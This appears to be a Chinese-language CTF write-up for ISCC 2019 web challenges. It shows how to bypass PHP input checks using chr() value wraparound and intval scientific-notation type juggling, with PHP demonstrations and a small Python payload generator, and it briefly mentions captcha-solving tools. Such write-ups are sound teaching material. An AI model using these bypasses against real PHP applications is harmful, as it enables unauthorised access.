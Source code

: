 # web1
使用`chr(256+i)=chr(i)`绕过`$value[$i] > 32 && $value[$i] < 127`
使用科学计数法绕过`intval($password) < 2333 && intval($password + 1) > 2333`：

```bash
λ php -r "echo intval('2e5');"
2
λ php -r "echo '2e5'+1;"
200001
λ php -r "echo intval('2e5'+1);"
200001
```

写exp得到payload：

```python
s='w3lc0me_To_ISCC2019'
value="?"
for idx in range(len(s)):
    value+="value[{idx}]={value}&".format(idx=idx, value=256+ord(s[idx]))
value+="password=2e5"
print(value)
```

# web2

涉及到一个简单的验证码识别，可以用PkavHTTPFuzzer搞定，也可以自己用Tesseract写或者用Burp [reCAPTCHA](https://github.com/bit4woo/reCAPTCHA)(其实不怎么推荐用Burp这个插件，因为其没法做)。

![1556785947674](writeup/1556785947674.png)
